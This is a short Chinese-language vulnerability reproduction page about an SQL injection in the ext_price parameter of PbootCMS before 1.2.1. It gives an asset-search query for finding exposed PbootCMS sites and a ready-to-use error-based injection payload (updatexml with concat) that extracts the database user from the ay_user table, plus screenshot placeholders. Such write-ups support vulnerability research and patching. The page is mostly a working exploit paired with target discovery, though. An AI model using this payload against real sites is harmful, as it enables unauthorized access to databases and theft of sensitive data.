 # PbootCMS ext_price SQL注入漏洞

## 漏洞描述

PbootCMS 存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

```
PbootCMS < 1.2.1
```

## 网络测绘

```
app="PBOOTCMS"
```

## 漏洞复现

主页

![](images/202202170926840.png)

测试 Payload

```plain
/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123)
```

![](images/202202170926157.png)